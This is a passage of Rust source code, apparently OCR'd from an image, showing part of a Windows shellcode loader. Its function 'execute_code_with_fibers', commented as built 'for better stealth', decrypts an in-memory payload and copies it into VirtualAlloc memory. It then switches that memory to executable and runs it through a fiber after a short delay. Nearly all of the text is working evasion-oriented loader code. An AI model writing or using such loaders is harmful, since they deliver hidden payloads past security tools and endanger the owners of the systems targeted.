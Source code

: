 ```rust
                if !self.main_fiber.is_null() {
                    ConvertFiberToThread();
                }
            }
        }
    }
}

// Enhanced execution using fibers for better stealth
#[cfg(target_os = "windows")]
unsafe fn execute_code_with_fibers(encrypted_memory: &mut EncryptedMemory) -> Result<(), Box<dyn Error>> {
    use std::mem;
    
    let code = encrypted_memory.get_decrypted_data();
    let size = code.len();
    
    // Validate code size
    if size == 0 {
        return Err("Empty code".into());
    }
    
    if size > 50 * 1024 * 1024 {  // 50MB limit
        return Err("Shellcode too large".into());
    }
    
    // Allocate memory for shellcode
    let buffer = win::VirtualAlloc(
        std::ptr::null_mut(),
        size,
        win::MEM_COMMIT | win::MEM_RESERVE,
        win::PAGE_READWRITE,
    );
    
    if buffer.is_null() {
        return Err("Failed to allocate memory for code".into());
    }
    
    // Copy shellcode to allocated memory
    std::ptr::copy_nonoverlapping(code.as_ptr(), buffer as *mut u8, size);
    
    // Change memory protection to executable
    let mut old_protect = 0u32;
    if win::VirtualProtect(buffer, size, win::PAGE_EXECUTE_READ, &mut old_protect) == 0 {
        return Err("Memory protection change to executable failed".into());
    }
    
    // Execute shellcode using fibers
    match fiber::Fiber::new(buffer, None) {
        Ok(fiber) => {
            // Add small delay before execution
            win::Sleep(100);
            
            // Execute the fiber
            let result = std::panic::catch_unwind(|| {
                fiber.execute().unwrap();
            });
            
            match result {
                Ok(_) => Ok(()),
                Err(_) => Err("Fiber execution failed".into())
            }
        },
```